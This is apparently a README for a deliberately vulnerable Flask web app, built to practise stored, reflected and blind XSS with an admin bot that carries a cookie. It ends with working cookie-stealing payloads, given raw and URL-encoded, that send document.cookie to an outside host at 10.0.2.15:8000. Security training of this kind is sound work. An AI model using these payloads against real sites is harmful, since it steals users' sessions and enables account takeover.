 # XSSLabs: Intentionally Vulnerable XSS Lab

This project is an intentionally vulnerable web application designed to demonstrate and practice various types of Cross-Site Scripting (XSS) vulnerabilities, including:

- **Stored XSS**
- **Reflected XSS**
- **Blind XSS** (with detection)
- **Advanced XSS**: Cookie theft via admin bot

## Structure
- **web**: Flask-based vulnerable web app
- **bot**: Admin bot (headless browser) that visits user-supplied pages with an admin cookie

## Running the Lab

1. **Install Docker and Docker Compose**
2. **Start the lab:**
   ```sh
   docker-compose up --build
   ```
3. Access the web app at [http://localhost:5000](http://localhost:5000)

## For Developers
- The app is intentionally insecure. Do NOT deploy in production.
- Contributions welcome! 


Blind Payload:
new Image().src='http://10.0.2.15:8000?c='+document.cookie 


WhenToolsFail1:
<img src=x onerror="new Image().src='http://10.0.2.15:8000?c='+document.cookie">
you have to URL encode it

%3Cimg%20src%3Dx%20onerror%3D%22new%20Image().src%3D'http%3A%2F%2F10.0.2.15%3A8000%3Fc%3D'%2Bdocument.cookie%22%3E
